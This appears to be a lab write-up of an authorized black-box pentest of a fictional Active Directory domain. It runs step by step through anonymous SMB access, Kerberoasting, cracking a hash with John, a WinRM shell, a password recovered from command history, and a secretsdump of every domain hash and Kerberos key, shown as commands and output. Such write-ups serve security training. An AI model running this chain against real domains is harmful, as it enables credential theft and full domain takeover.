

# Martini-AD


## Objective

An adult beverage company "Martini Bars" recently had a corporate breach and the compliance and risk team dictates they perform a penetration test at one of their branch offices. The Hack Smarter team has been authorized to perform an internal black box pentest.

## Initial Access
The client has provided you with VPN access to their internal network, but no credentials.

## Enumeration
Document all enumeration don on the host to find vulnerable and attack paths.

```
nmap -Pn -sV -sC -p- --min-rate=200 10.0.31.224 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-26 21:27 EDT
Nmap scan report for 10.0.31.224
Host is up (0.038s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info:
|   Target_Name: DRY
|   NetBIOS_Domain_Name: DRY
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: DRY.MARTINI.BARS
|   DNS_Computer_Name: DC01.DRY.MARTINI.BARS
|   Product_Version: 10.0.26100
|_  System_Time: 2026-06-27T01:35:32+00:00
| ssl-cert: Subject: commonName=DC01.DRY.MARTINI.BARS
| Not valid before: 2026-06-26T01:24:51
|_Not valid after:  2026-12-26T01:24:51
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.95%I=7%D=6/26%Time=6A3F28B6%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02\
SF:0\0\0");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-06-27T01:35:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 542.00 seconds
```

​
## Anonymous SMB Login
Anonymous user has both READ and WRITE access to the notes SMB drive.

```
nxc smb 10.0.31.224 -u 'a' -p '' --shares
SMB         10.0.31.224     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.0.31.224     445    DC01             [+] DRY.MARTINI.BARS\a: (Guest)
SMB         10.0.31.224     445    DC01             [*] Enumerated shares
SMB         10.0.31.224     445    DC01             Share           Permissions     Remark
SMB         10.0.31.224     445    DC01             -----           -----------     ------
SMB         10.0.31.224     445    DC01             ADMIN$                          Remote Admin
SMB         10.0.31.224     445    DC01             C$                              Default share
SMB         10.0.31.224     445    DC01             IPC$            READ            Remote IPC
SMB         10.0.31.224     445    DC01             NETLOGON                        Logon server share
SMB         10.0.31.224     445    DC01             notes           READ,WRITE
SMB         10.0.31.224     445    DC01             SYSVOL                          Logon server share
```


Download locally the notes.txt in the note SMB share

```
impacket-smbclient DRY.MARTINI.BARS/anonymous:''@10.0.31.224
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
notes
SYSVOL
# use notes
# ls
drw-rw-rw-          0  Fri Jun 26 22:01:29 2026 .
drw-rw-rw-          0  Sat Jan 17 11:38:33 2026 ..
-rw-rw-rw-        129  Tue Jan 20 13:11:00 2026 notes.txt
# get notes.txt
```

Open the `notes.txt` file. Found `creds`

```
cat notes.txt
- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint

#creds
mprice:*martini*
```

​
## User Enumeration
Checking mprice credentials. It worked. He has all `READ` to most `SMB shares`.

```
nxc smb 10.0.31.224 -u 'mprice' -p '*martini*'
SMB         10.0.31.224     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.0.31.224     445    DC01             [+] DRY.MARTINI.BARS\mprice:*martini*

nxc smb 10.0.31.224 -u 'mprice' -p '*martini*' --shares
SMB         10.0.31.224     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.0.31.224     445    DC01             [+] DRY.MARTINI.BARS\mprice:*martini*
SMB         10.0.31.224     445    DC01             [*] Enumerated shares
SMB         10.0.31.224     445    DC01             Share           Permissions     Remark
SMB         10.0.31.224     445    DC01             -----           -----------     ------
SMB         10.0.31.224     445    DC01             ADMIN$                          Remote Admin
SMB         10.0.31.224     445    DC01             C$                              Default share
SMB         10.0.31.224     445    DC01             IPC$            READ            Remote IPC
SMB         10.0.31.224     445    DC01             NETLOGON        READ            Logon server share
SMB         10.0.31.224     445    DC01             notes           READ,WRITE
SMB         10.0.31.224     445    DC01             SYSVOL          READ            Logon server share
```

​
### Kerberoastable user
`Kerberoasting` is a widely used and reliable post-exploitation technique that attackers use to steal passwords in an Active Directory (AD) environment.
It allows any standard domain user to request cryptographic data for specific service accounts, take it offline, and attempt to crack the service account password.

```
nxc ldap 10.0.31.224 -u 'mprice' -p '*martini*' --kerberoasting kerbe.txt
LDAP        10.0.31.224     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.0.31.224     389    DC01             [+] DRY.MARTINI.BARS\mprice:*martini*
LDAP        10.0.31.224     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.0.31.224     389    DC01             [*] Total of records returned 1
LDAP        10.0.31.224     389    DC01             [*] sAMAccountName: ATHENA_SVC, memberOf: ['CN=Remote Management Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS', 'CN=Remote Desktop Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS'], pwdLastSet: 2026-01-20 13:20:32.856622, lastLogon: <never>
LDAP        10.0.31.224     389    DC01             $krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$DRY.MARTINI.BARS\ATHENA_SVC*$dde570c7ab4d599f04fa44e1e37e3ce8$e7b8b733c7249f72f..................3d3056af68278018c7a1aa5a06d0da01814a1ba3bd688b6f933e949fda48dc5ad166f7a3d64075e198f60a0c44f1ee9c9447a0bd42cc62eeb61ca760075ef63bdad4e28dc7e3ec8802bc17e4570ebe83b975dbd9c1b054
```

Crack the `krb5tgs hash` for `ATHENA_SVC` using `JohnTheRipper`

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbe.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1dirtymartini    (?)
1g 0:00:00:16 DONE (2026-06-26 22:21) 0.05945g/s 774148p/s 774148c/s 774148C/s 1djwsaa..1desmemoriado
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

__Credentials: ATHENA_SVC:1dirtymartini__


## Foothold
Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

The `ATHENA_SVC` user has `Remote Access`.

```c
nxc smb 10.0.31.224 -u 'ATHENA_SVC' -p '1dirtymartini'
SMB         10.0.31.224     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.0.31.224     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini

nxc winrm 10.0.31.224 -u 'ATHENA_SVC' -p '1dirtymartini'
WINRM       10.0.31.224     5985   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS)
WINRM       10.0.31.224     5985   DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini (Pwn3d!)
```

​
Now I can now remotely access the DC with ATHENA_SVC credentials using evil-winrm

```c
evil-winrm -i 10.0.31.224 -u ATHENA_SVC -p '1dirtymartini'
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ATHENA_SVC\Documents>
```
​
### BloodHound
Before I further enumerate the Host using my `evil-winrm` connection. Let me use `Bloodhound` and dump the AD objects and trusts.

```
bloodyAD --host 10.0.31.224 -d DC01.DRY.MARTINI.BARS -u ATHENA_SVC -p '1dirtymartini' get bloodhound
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00, 21.80it/s]
Generating lookuptable: 81it [00:00, 204.47it/s]
Dumping SDs: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 85/85 [00:02<00:00, 32.53it/s]
Dumping domains: 100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 12.42it/s]
Dumping users: 100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 6/6 [00:00<00:00, 156.29it/s]
Dumping computers: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 46.51it/s]
Dumping groups: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 51/51 [00:00<00:00, 794.09it/s]
Dumping GPOs: 100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 26.81it/s]
Dumping OUs: 100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 33.40it/s]
Dumping Containers: 100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 19/19 [00:00<00:00, 223.57it/s]
[+] Bloodhound data saved to 20260627T023946_Bloodhound.zip
[+] Found 0 trusts
```

There is really nothing to see here, as `ATHENA_SVC` doesn’t have any `Outbound Object Control` to any object in the Domain Controller. __DeadEnd__.



Let’s go back to the `Remote Desktop` and perform some `Pillage`. Aye! Captain.
Pillage
After checking the C drive for hidden password file, I stumbled on the command history file and found the administrator password

```
*Evil-WinRM* PS C:\Users\ATHENA_SVC\Documents> doskey /history
*Evil-WinRM* PS C:\Users\ATHENA_SVC\Documents> type C:/Users/ATHENA_SVC/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt
net user administrator "ebz0yxy3txh9BDE*yeh"
```

​
## Privilege Escalation
Document how you were able to more laterally and gain a higher privilege
Using the already found `Administrator` password I `Pwned` the Domain Controller

```
nxc smb DC01.DRY.MARTINI.BARS -u administrator -p 'ebz0yxy3txh9BDE*yeh' 
SMB         10.0.31.224     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.0.31.224     445    DC01             [+] DRY.MARTINI.BARS\administrator:ebz0yxy3txh9BDE*yeh (Pwn3d!)
```

​
We gained `Domain Admin`, by finding the administrator password that was used in the Command line.
In a `Penetration Test`, you can now dump the password hashes for all users for offline cracking

```c
impacket-secretsdump DC01.DRY.MARTINI.BARS/administrator:'ebz0yxy3txh9BDE*yeh'@10.0.31.224
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xb2f01e3e3c1aa452de55002fbe88214a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
DRY\DC01$:aes256-cts-hmac-sha1-96:af4f0b33b1c7d1f82cf05fc3063c071b9177d7401bf9b1b00a581d6661c27c0a
DRY\DC01$:aes128-cts-hmac-sha1-96:e4758d830be1e168eee9d367acdcb167
DRY\DC01$:des-cbc-md5:627f4c9bceab4fda
DRY\DC01$:plain_password_hex:390053006300730063005600430077006d0037006d006a006200310052006b0067006b006e004b0076005a00690037004a0071006c006e0056004e00560073002b00670035003d0045004d0079007300300051006a0073006b006f003100420037006a005200480064003500570072003d0032006c0076004b0071004800660056006e0053007100580030006b003900770051005500740075005600520043006c00300052006e0072004b00630066004a0064006c002b00780075005a0072003700650079006d0078003600520032003500520078003900610061006f004700300045006100750037007400690069005800620077006400750072003300680045004d00440070007100470048004500570064006200470061006100470064006c0052002b003800460075003500330038007400320068006600730034006900680045004a0068004f00590035003d0048005800620056004a004200590051007000560054004a00390052005500530036005a0068006b006e006b003d00370039006a0070005800700051006f0054004c0078005300310071004c006a006f0071006a0030004e0048005a00620052006d004c0054007a0074007a0030004d0059007a007a006400310055004d00320059007900630048005a007900730034006e0030004e0038004700300076002b0035003400370074004f0044004f004500
DRY\DC01$:aad3b435b51404eeaad3b435b51404ee:f1b466669e881bb4f16c981e25894fff:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xf2a16bffe9821b781c11e6abc7c86537a314dcbb
dpapi_userkey:0xf6f64677bd9484d59e36c9a2b933b81d16c3f5c9
[*] NL$KM 
 0000   D6 F9 1E BE 20 95 21 6A  88 22 1F 5C 92 CE 2C 8A   .... .!j.".\..,.
 0010   BB CF 2C 38 59 53 A4 3A  EF A0 03 DA EA A5 A8 CF   ..,8YS.:........
 0020   0E 6F 91 92 02 3E 5B 45  40 E2 C7 A8 D5 DA 8B 11   .o...>[E@.......
 0030   6D 77 6B 5F 3F 78 48 12  0F BF A8 CE 06 C2 C6 7C   mwk_?xH........|
NL$KM:d6f91ebe2095216a88221f5c92ce2c8abbcf2c385953a43aefa003daeaa5a8cf0e6f9192023e5b4540e2c7a8d5da8b116d776b5f3f7848120fbfa8ce06c2c67c
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d5cad8a9782b2879bf316f56936f1e36:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:22ebc290e67668629c8d0812662a9c51:::
DRY.MARTINI.BARS\mprice:1104:aad3b435b51404eeaad3b435b51404ee:821e97e217ddc6e433ac92e0b92955fc:::
DRY.MARTINI.BARS\athena.t0:1105:aad3b435b51404eeaad3b435b51404ee:5f4ae3ddff03f730dd0f1ab97f5849eb:::
DRY.MARTINI.BARS\ATHENA_SVC:1106:aad3b435b51404eeaad3b435b51404ee:5f4ae3ddff03f730dd0f1ab97f5849eb:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f1b466669e881bb4f16c981e25894fff:::
[*] Kerberos keys grabbed
Administrator:0x14:99a71052cd68e924eec9cf8a584d87e078ffad22fb2e33afc922404b0f4d87d7
Administrator:0x13:36ebe3323c3bf7178d5d89ebc0e3f1b3
Administrator:aes256-cts-hmac-sha1-96:ab535f3a35d406cd9a2ab55e4b5ac037b1bcf6ff7c0fe70cc5e3fd05eb7e85e9
Administrator:aes128-cts-hmac-sha1-96:46a8a37a5f4c1da2f17e36965dd6561d
Administrator:0x17:d5cad8a9782b2879bf316f56936f1e36
krbtgt:aes256-cts-hmac-sha1-96:b2679af0c2283eff6926eda9fcdac99c7bc2b118158df3934a33d5f4f50baed3
krbtgt:aes128-cts-hmac-sha1-96:bfb79c68ae71254e572fd65dd34f5b5c
krbtgt:0x17:22ebc290e67668629c8d0812662a9c51
DRY.MARTINI.BARS\mprice:0x14:3b3563e3bdc4cce3220d51867bbcb8d830a840ae78432e0722b545da9f401164
DRY.MARTINI.BARS\mprice:0x13:a2e065848dc2faecefa27d335cd5ebfc
DRY.MARTINI.BARS\mprice:aes256-cts-hmac-sha1-96:092d7fc4f6b1222436778e6bb6eccd5b82d4e2b5312c276f7a6c53afe5061846
DRY.MARTINI.BARS\mprice:aes128-cts-hmac-sha1-96:0063cbe70b3626bb09b5b26dfabe040f
DRY.MARTINI.BARS\mprice:0x17:821e97e217ddc6e433ac92e0b92955fc
DRY.MARTINI.BARS\athena.t0:0x14:54eb9e1180c0285453533d176b3be7617d1fedb9f06091e73e2e5fd9b8215160
DRY.MARTINI.BARS\athena.t0:0x13:0137cc7731a76b1d1dc50564410e7cf6
DRY.MARTINI.BARS\athena.t0:aes256-cts-hmac-sha1-96:8d4ed2234bb59fc1ca26dc088be3898b4049b2908a4f72c9e531036a9756c979
DRY.MARTINI.BARS\athena.t0:aes128-cts-hmac-sha1-96:746057ac92411bf547e6ea27c7a4a99a
DRY.MARTINI.BARS\athena.t0:0x17:5f4ae3ddff03f730dd0f1ab97f5849eb
DRY.MARTINI.BARS\ATHENA_SVC:0x14:0ce1d6094d25abd2b9894883bdfced0da53e93a33c6013ce0fb7214873754419
DRY.MARTINI.BARS\ATHENA_SVC:0x13:24298886655586580fa8dc97a7dbd1f6
DRY.MARTINI.BARS\ATHENA_SVC:aes256-cts-hmac-sha1-96:726be946b26085fe0e21c3603b7a4648d14f5dafa0859f0e0bfca047b828e8fa
DRY.MARTINI.BARS\ATHENA_SVC:aes128-cts-hmac-sha1-96:d58ac3c4825b34faff4ece06402d9f6d
DRY.MARTINI.BARS\ATHENA_SVC:0x17:5f4ae3ddff03f730dd0f1ab97f5849eb
DC01$:0x14:708de88900946d056d36fb1d1d8b2269a015c6b212709e1940242ccd945fe789
DC01$:0x13:e5daab7563b9ef43aa206920545a2eaa
DC01$:aes256-cts-hmac-sha1-96:af4f0b33b1c7d1f82cf05fc3063c071b9177d7401bf9b1b00a581d6661c27c0a
DC01$:aes128-cts-hmac-sha1-96:e4758d830be1e168eee9d367acdcb167
DC01$:0x17:f1b466669e881bb4f16c981e25894fff
[*] Cleaning up... 

```

__**Jessus loves you!**__